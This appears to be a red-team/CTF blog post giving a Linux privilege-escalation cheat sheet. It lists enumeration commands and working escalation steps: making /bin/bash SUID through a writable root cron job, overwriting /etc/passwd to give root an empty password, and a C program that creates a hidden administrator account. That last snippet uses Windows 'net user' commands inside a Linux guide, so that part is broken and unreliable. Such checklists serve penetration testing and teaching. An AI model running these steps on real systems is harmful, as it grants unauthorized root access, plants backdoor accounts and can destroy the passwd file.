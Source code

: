 ```yaml
---
layout: post
title:  "Linux Privilage Escalation"
date:   2020-02-15 08:12:24 +0530
categories: redteam ctf
---
```


This post talks about what to do after getting the initial low privilage shell and how to escalate the privilage upto root.

## Get the system info
```
uname -a
```
If the host is older than 2016 there is a high probability of the host is being vulnerable to dirtycow attack.
[here you can find the dirtycow info](https://dirtycow.ninja/)

## Run this shell script to get more info
```
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
```

## Find OS version
```
cat /etc/*-release
uname -i
lsb_release -a
```
## Logged in user
```
id
whoami
pwd
```
## Other users
```
cat /etc/passwd
grep -vE "nologin|false" /etc/passwd
```
## curently running processes
```
ps aux
netstat -antup
```
## What's installed
```
dpkg -l (Debian based OSs)
rpm -qa (CentOS / openSUSE )
uname -a
```

## In privilage escalation we need to find answers first to below questions
```
What user files do we have access to?
What configurations do we have access to?
Any incorrect file permissions?
What programs are custom? Any SUID? SGID?
What's scheduled to run?
Any hardcoded credentials? Where are credentials kept?
```

## use a script to find the answers
```
https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py
```

## User editable cronjobs
```
crontab -l
```

## Application based cron jobs
```
ls -all /etc/cron.d
```
## if you find a cronjob running as root but can be editable run this command
```
chmod u+s /bin/bash
and then this,
/bin/bash -p
```

## Writable /etc/passwd file found
```
“root::0:0:root:/root:/bin/bash” > /etc/passwd
```

## SUID checker
```
find / \( -perm -4000 \) -exec ls -ld {} \; 2>/dev/null
```

## If it is possible to run a c executable, run useradd.c file
```
#include <stdlib.h> /* system, NULL, EXIT_FAILURE */

int main ()
{
  int i;
  i=system ("net user janith janith@123 /add && net localgroup administrators janith /add");
  return 0;
}
```
